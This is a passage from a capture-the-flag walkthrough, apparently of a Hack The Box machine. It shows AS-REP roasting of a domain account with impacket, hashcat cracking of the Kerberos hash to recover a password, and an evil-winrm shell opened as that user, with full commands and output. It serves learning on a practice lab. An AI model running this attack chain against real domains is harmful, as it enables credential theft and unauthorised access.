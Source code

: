 ```bash
┌──(s3n㉿kali)-[~/Desktop/Box/recon]
└─$ sudo impacket-GetNPUsers -request -dc-ip 10.10.10.161 htb.local/

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC      
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2025-01-08 07:40:04.738225  2025-01-08 07:40:01.956933  0x410200 

$krb5asrep$23$svc-alfresco@HTB.LOCAL:44ad01dc17d4ba761d72ea7545970dcd$7806253f36fd17dd6d9669037ace47695e502faace5fa4e2409a727613d40d083db43a8f229c3feb8968f8a48fef57d4f71f526f19d66345e6662e3563756a92e9717357312ae3c7e0d16e6fe092b09b698fbd64a5e91d9b566f1d15c3dfeaad0f1eb7e6a73d8c8ea75aaad258df47071858092fde8b9eb2c649c30fcfe30f318da1196a789d4c915e4d5e63c876d73ffaa6ff568adab010d87586ec32cc8f023a824b922b192eb0d40db2efe04dc1450e297fadfbc46f452458810d0bcffbd33933e2b1d2039332d4953ac955fb4c27c61df64c039eb88c502e0be28a47a71fadca23864fdd
```

Let's crack the hash:

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/recon]
└─$ sudo hashcat -m 18200 hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force --show

$krb5asrep$23$svc-alfresco@HTB.LOCAL:44ad01dc17d4ba761d72ea7545970dcd$7806253f36fd17dd6d9669037ace47695e502faace5fa4e2409a727613d40d083db43a8f229c3feb8968f8a48fef57d4f71f526f19d66345e6662e3563756a92e9717357312ae3c7e0d16e6fe092b09b698fbd64a5e91d9b566f1d15c3dfeaad0f1eb7e6a73d8c8ea75aaad258df47071858092fde8b9eb2c649c30fcfe30f318da1196a789d4c915e4d5e63c876d73ffaa6ff568adab010d87586ec32cc8f023a824b922b192eb0d40db2efe04dc1450e297fadfbc46f452458810d0bcffbd33933e2b1d2039332d4953ac955fb4c27c61df64c039eb88c502e0be28a47a71fadca23864fdd:s3rvice
```

Now that we have the credentials **svc-alfresco:s3rvice**, we can try to access the machine via WinRM with a tool like `evil-winrm`.

- - -
## Setting a Foothold
We can access the machine abusing the **WinRM** protocol with `evil-winrm`, taking advantage of the credentials we just found.

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/recon]
└─$ evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice       

Evil-WinRM shell v3.7
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> whoami
htb\svc-alfresco
```
